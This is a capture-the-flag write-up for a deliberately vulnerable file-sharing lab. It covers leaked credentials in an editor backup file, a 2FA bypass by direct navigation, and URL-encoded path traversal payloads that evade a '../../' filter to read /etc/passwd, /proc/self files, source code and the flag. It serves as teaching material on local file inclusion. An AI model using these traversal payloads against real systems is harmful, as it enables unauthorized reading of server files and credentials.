





# Lunar Code Invasion 2025

- upon going to ```/robots.txt``` you'll notice the following entry:
```
# don't need web scrapers scraping these sensitive files:

Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```

- if we go to ```/.gitignore_test``` we see
```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

- pretty much the story is we have a auto-generated save file that has credentials we used when testing for QA and we failed to rename ```/.gitignore_test``` to ```.gitignore``` so github did not honor it and pushed our credentials.
- go to ```/index/static/login.html~``` and you'll see credentials to login:
```html
<!-- truncated -->
<input value="admin@lunarfiles.muhammadali" type="text" name="email">
<input value="jEJ&(32)DMC<!*###" type="text" name="password">
<!-- truncated -->
```

- Now let's login with these, we'll be shown a 2FA page. However, if you remember in ```/robots.txt``` there was a ```/admin/dashboard```, so if we hit that endpoint directly in our browser it bypasses 2FA.


- Now we need to go to ```Manage Files```



- When loading one of the files you'll see a GET request to ```/admin/download/secret1.txt```
- if we try ```URLEncoded LFI``` we get this error message
    - URL: ```/admin/download/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64```
    - Error Message: ```[ Succession of '../../' detected, forbidden ]```

- The error message tells us exactly what got flagged, so let's try to bypass it by doing this:
    - ```.././.././ KEEP REPEATING```
    - URL: ```%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%65%74%63%2f%70%61%73%73%77%64```

- This will work and we will get the contents of ```/etc/passwd```


- The solution to this is to figure out where we are and where the flag is, ```/proc/self/environ``` gives us nothing useful, so we need to try and find the source code to understand where the flag could be.

- if we do ```/proc/self/cmdline``` it shows us the command that was used to run the current process we have LFI in.
    - ```python3 app.py```




- now we don't know the absolute path, attempts like ```/app.py``` or ```./app.py``` (current directory) 
- There are 2 solutions, you can keep doing ```../app.py```, ```../../app.py```, ```../../../app.py```, etc and hope you can reach the ```app.py``` relative to the current path, or use the ```/proc/self/cwd/app.py``` symlink.
    - unintended (using relative traversals): ```/admin/download/%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%61%70%70%2e%70%79```
    - intended (using /proc/self/cwd/app.py): ```%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%70%72%6f%63%2f%73%65%6c%66%2f%63%77%64%2f%61%70%70%2e%70%79```



- As you can see there is the following code snippet:
```python
...

with open("./FLAG/flag.txt", 'r') as f:
    FLAG = f.read()

...
```

- This tells us the flag is relative to the LFI process we're in so we can use the intended or unintended solve, the intended one is shown below:
```
GET /admin/download/.././.././.././.././.././.././.././.././.././.././.././.././.././.././.././.././.././.././.././.././proc/self/cwd/FLAG/flag.txt

URLEncoded:

GET /admin/download/%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%2e%2e%2f%2e%2f%70%72%6f%63%2f%73%65%6c%66%2f%63%77%64%2f%46%4c%41%47%2f%66%6c%61%67%2e%74%78%74
```



## Additional notes

- This can be a global instance, the goal of this is to help people learn about LFI.
- The log directories are symlinked to `/dev/null` so people cannot cheese this by reading what other people did.
